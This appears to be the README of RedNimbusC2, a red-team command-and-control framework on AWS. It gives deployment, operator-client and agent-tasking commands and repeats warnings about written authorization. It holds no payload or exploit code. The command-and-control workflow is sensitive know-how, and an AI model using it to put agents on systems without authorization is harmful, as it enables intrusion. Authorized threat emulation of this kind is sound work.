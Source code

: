 # :cloud: RedNimbusC2

Red Nimbus C2 is a [command and control](https://attack.mitre.org/tactics/TA0011/) framework built on AWS services including [Lambda](https://aws.amazon.com/lambda/), [S3](https://aws.amazon.com/s3/), and [CloudWatch](https://aws.amazon.com/cloudwatch/).

The purpose of this tool is to enable legitimate cybersecurity practitioners to emulate advanced cyber threats. In that way, organizations can identify weaknesses and apply corrective and/or compensating controls to improve their security posture.

![alt text](images/nimbusC2_architecture.png)

## Demo

![](images/RedNimbusC2-Demo.gif)

## :warning: READ THIS FIRST! :warning:

- You are solely responsible for your use of this tool.

- You are required to build it, deploy it, and operate it.

- :moneybag: :fire: **You will be charged for your use of AWS resources**.

- Before utilizing this tool, ensure you have explicit written permission to assess the target network(s) from the network owner(s).

- Additionally, you are responsible for complying with the AWS support policy for penetration testing, available [here](https://aws.amazon.com/security/penetration-testing/).

- Misuse of this tool is **strongly condemned** by the author, and will almost certaintly result in criminal and/or legal action.

## :construction: Pardon Our Dust

This repository is under active development.

Content is not stable at this time.

## :floppy_disk: Prerequisites

### 1. Create AWS Account

Red Nimbus C2 makes exclusive use of AWS cloud services.

For this reason, you must have your own AWS account.

Instructions on creating an AWS account are provided [here](https://aws.amazon.com/premiumsupport/knowledge-center/create-and-activate-aws-account/).

### 2. Install Build Dependencies

You must install the following resources in order to build and operate Red Nimbus C2:

1. [Node.js](https://nodejs.org/en/)
2. [Python 3](https://www.python.org)
3. [AWS SDK for Python (Boto3)](https://aws.amazon.com/sdk-for-python/)
4. [Go](https://go.dev)
5. [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html)
6. [AWS CDK](https://aws.amazon.com/getting-started/guides/setup-cdk/)
7. [Make](https://www.gnu.org/software/make/)
8. [Git](https://git-scm.com)

You can optionally use the provided Dockerfile to build a pre-configured docker container:

```bash
# build the RedNimbusC2 docker image
docker build -t red-nimbus-c2 .

# execute the red-nimbus-c2 container
docker run -it red-nimbus-c2 bash
```

Next, configure AWS CLI with your AWS access key ID and secret access key.

See [here](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-quickstart.html) for guidance on setting up AWS CLI.

```bash
aws configure
```

## :computer: Installation

After installing the needed build depdencies, you can install/deploy Red Nimbus C2 using the following commands.

1. **Clone the repository**

```bash
git clone https://github.com/bluesentinelsec/RedNimbusC2.git
```

2. **Deploy Red Nimbus C2 infrastructure to AWS using [CDK](https://aws.amazon.com/cdk/)**

```bash
# enter the RedNimbusC2 directory
cd RedNimbusC2

# deploy RedNimbusC2 resources to AWS
make deploy

# Your C2 URL will be found in this file
# after deployingment:
#     RedNimbusC2/nimbus_c2_url.json

# optionally deploy to a specific AWS account like so:
#     make deploy AWS_PROFILE=<your_profile>
```

See [here](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html) for info on configuring AWS CLI profiles.


3. **Install the Red Nimbus C2 Operator Client**

```bash
# from RedNimbusC2 directory
pip3 install -r operator_client/requirements.txt

python3 operator_client/nimbusc2.py --help
```

## Operator Instructions

Red Nimbus C2 uses the following workflow:

1. Deploy agent to target
2. Issue commands using the Nimbus C2 operator client
3. Cleanup when finished

### 1. Deploy Agent to Target System(s)

We provide an [example agent written in Python](./agent/agent.py).

You may use this script as a reference to implement your own agent for operational purposes. [Go is a good choice.](https://github.com/bluesentinelsec/OffensiveGoLang)

Otherwise, you are responsible for deploying the agent to your intended target.

As a reminder, always stay in scope, always follow your rules of engagement, and always get explicit written permission to execute prior to conducting your engagement.

Once the agent is on target, you can execute it as follows:

```bash
# view help
python3 agent.py --help

# start C2 loop
# get your API Gateway URL from this file:
# RedNimbusC2/nimbus_c2_url.json
python3 agent.py --url <AWS API Gateway URL>
```

### 2. Issue commands using the Nimbus C2 operator client

The Red Nimbus C2 operator client is provided [here](./operator_client/nimbusc2.py).

**Interact with Agent Sessions**

```bash
# view summarized info about all sessions
nimbusc2.py --list-sessions

# view detailed agent session information
nimbusc2.py --get-session --session-id <agent_session_id>

# terminate agent session
nimbusc2.py --remove-session --session-id <agent_session_id>
```

**Issue Commands to Agents**

```bash
# issue an agent task; will be executed by all agents by default
nimbusc2.py --set-task --cmd <supported_agent_command>

# view a pending agent task
nimbusc2.py --get-task --task-id <task_id>

# delete a pending agent task
nimbusc2.py --remove-task --task-id <task_id>
```

### View Task Output

At this time you can view agent output in AWS CloudWatch.

A future enhancement will be added to integrate agent task output with the operator client terminal.

### Cleanup

:exclamation: To remove the Red Nimbus C2 infrastructure on AWS:

```bash
# remove nimbusc2 binaries and AWS infrastructure
# this will destroy any operational data you may have
# in S3, so be sure to backup your data before uninstalling if necessary 
make destroy
```
